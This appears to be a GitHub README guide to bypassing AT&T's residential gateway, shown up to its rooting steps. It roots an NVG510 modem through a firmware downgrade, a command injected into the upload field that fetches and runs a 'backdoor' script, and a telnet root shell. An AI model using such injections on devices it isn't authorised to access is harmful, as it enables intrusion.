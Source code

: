 # BypassAttRG
Using Asuswrt-Merlin to bypass AT&amp;T's residential gateway. (rt-ac68u <--> ~BGW210~ <--> ONT)  
This method only requires Asuswrt-Merlin. No *pfSense*, or *netgraph*, or ubiquiti devices,  or dumb switch needed.  
I only tested with rt-ac68u, but the method should work for all Asuswrt-Merlin based wireless routers (Please let me know if it doesn't).  
Now, the home router connects optical network terminal(ONT) directly. You should setup the firewall wisely.




## Menu
- [Prerequisites](#prerequisites)
- [Extract Certificates](#extract-certificates)
- [Configuring 802.1x authentication](#configuring-8021x-authentication)
- [Miscellaneous](#miscellaneous)
- [Credits & References](#credits--references)

  
## Prerequisites
- [Python 3](https://www.python.org/downloads/release/python-373/) for the local http server. There are many alternatives(e.g. [mobaxterm](https://mobaxterm.mobatek.net/)).
- Basic knowledge of POSIX commands (cd, mkdir, wget, etc.).
- A NVG510 or NVG589

[Back to menu](#menu)
## Extract Certificates
The certificates extracted from both NVG510 and NVG589 work, however NVG510 costs less and is easier to root.
- [NVG510](#nvg510)
- [NVG589](#nvg589) (maybe NVG599)
### NVG510
#### Rooting
Credit: [earlz](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui)
- Downgrade firmware to [9.0.6h2d30](firmware/nvg510/nbxv9.0.6h2d30.bin)
- Follow this guide [Rooting The NVG510 from the WebUI](http://earlz.net/view/2012/06/07/0026/rooting-the-nvg510-from-the-webui).  
If NVG510 has no connection to internet, you may want to setup a local server for NVG510 to download the script.
  - Download [http://earlz.net/static/backdoor.nvg510.sh](http://earlz.net/static/backdoor.nvg510.sh)
  - Using Python to setup a simple http server. `python -m http.server`
  - Change _uploadfile_ to `errrr && wget http://YOUR_LOCAL_IP:8000/backdoor.nvg510.sh -O /tmp/backdoor.sh && source /tmp/backdoor.sh && errr`

- Login `telnet 192.168.1.254 28`. The username is **admin** and the password is your modem's *access code*.
- Type `!`. It switches to root shell.
